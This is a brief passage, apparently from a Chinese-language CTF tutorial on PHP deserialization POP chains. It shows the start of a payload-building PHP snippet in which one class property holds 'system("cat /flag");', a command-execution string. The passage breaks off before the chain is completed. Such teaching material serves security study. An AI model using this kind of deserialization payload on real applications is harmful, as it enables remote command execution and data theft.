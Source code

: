     ![POP链前置 1](/hello_ctf/images/Serialize28.png) (类定义)
    *   **构造 Payload:** 逐层嵌套创建对象。
        ```php
        <?php
        class C { public $c = 'system("cat /flag");'; }
        class B { public $b; }
        class A { public $a; }
        class destnation { public $cmd; }
        class D { public $d; }
